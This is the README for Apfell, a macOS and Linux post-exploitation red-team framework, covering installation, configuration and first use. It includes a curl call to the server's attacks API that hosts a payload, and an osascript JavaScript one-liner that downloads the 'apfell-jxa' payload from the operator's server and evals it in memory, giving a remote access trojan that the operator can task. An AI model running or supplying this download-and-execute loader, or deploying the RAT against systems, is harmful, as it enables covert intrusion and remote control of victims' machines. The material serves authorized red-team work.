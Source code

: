 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: The Sanic webserver says it only works on Linux):
```bash
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```
- Configure the installation in app/\_\_init\_\_.py:
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '192.168.0.119'
```
- Optionally configure the IP and port for the server to listen on in Server.py:
```bash
if __name__ == "__main__":
    asyncio.set_event_loop(dbloop)
    server = apfell.create_server(host='0.0.0.0', port=80) # edit this line
```
## Usage

- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ http://0.0.0.0:80
```
By default, the server will bind to 0.0.0.0 on port 80. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to http://0.0.0.0:80 in your browser. Instead, you'll browse to either http://localhost:80 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Use the attacks_api to host the new file (this will eventually get updated with a GUI):  
```bash
# assuming we created a payload in our local '/tmp' directory
curl -X POST'{"port":8080, "directory":"/tmp"}' http://192.168.0.119/api/v1.0/attacks/host_file
```
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters
